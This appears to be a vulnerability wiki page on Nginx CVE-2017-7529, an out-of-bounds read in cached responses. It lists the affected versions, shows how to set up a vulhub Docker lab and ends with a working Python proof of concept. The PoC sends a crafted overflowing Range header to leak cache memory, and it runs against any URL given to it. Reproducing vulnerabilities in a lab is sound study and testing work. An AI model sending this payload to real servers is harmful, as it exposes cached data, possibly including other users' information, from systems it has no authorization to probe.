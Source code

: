 ```yaml
---
title: Nginx out-of-bounds read cache vulnerability CVE-2017-7529
---
```


# Nginx out-of-bounds read cache vulnerability CVE-2017-7529

## Vulnerability Description
When Nginx reverses the proxy site, it usually caches some files, especially static files. 

If my request contains a Range header, Nginx will return the content of the specified length based on the start and end positions I specified. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Nginx version 0.5.6 - 1.13.2</span>

## Environment construction
``` shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```
Visit `https://xxx.xxx.xxx.xxx:8080` and it's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307133726141.png)

## Vulnerability reappears

Verification with POC

```shell
python poc.py https://xxx.xxx.xxx.xxx:8080/
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/318085cd-8491-4ca4-b19e-de8f66041c6b.png)

## Vulnerability POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s https://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```
